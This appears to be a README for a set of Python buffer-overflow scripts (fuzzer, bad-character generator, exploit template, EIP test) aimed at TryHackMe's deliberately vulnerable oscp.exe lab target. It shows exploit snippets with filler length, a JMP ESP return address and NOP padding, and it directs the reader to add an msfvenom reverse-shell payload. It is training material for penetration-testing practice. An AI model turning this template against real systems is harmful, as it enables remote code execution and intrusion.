# BufferOverflow
Buffer Overflow Python Scripts

Don't forget to change the IP address of the oscp.exe server

```python
s.connect(("192.168.100.2", 1337)) 
```

## Bad Character Generator for Python3

Just a badcharacter generator to copy and paste into your buffer overflow python script

## Fuzzer

Python3 Fuzzer to enable a buffer overflow

## BoF Template for OSCP.exe from TryHackMe

Simple BoF templatae for oscp.exe.

Don't forget to update the payload_shell with your own msfvenom generated reverse shell payload

Update the header for each overflow example... ie. OVERFLOW1 ,OVERFLOW2 , etc

```python
header = "OVERFLOW1 "
```

Adjust the filler buffer to enable the overflow, adjust the eip address (JMP ESP)

Change the payload reference for the extend to caclulate the correct end of the buffer after your payload (this is not necessary, however it keeps the original BoF intact)

```python
filler = "A" * 1978  # Filler 1978 Bytes + 10 Bytes Header
eip = "\xaf\x11\x50\x62"    #0x625011af  Return Address JMP ESP
extend = "\x90" * (400 - (len(payload_calc) + (len(nop_sled)))
```

## Eip Test

Verification of Control of EIP register

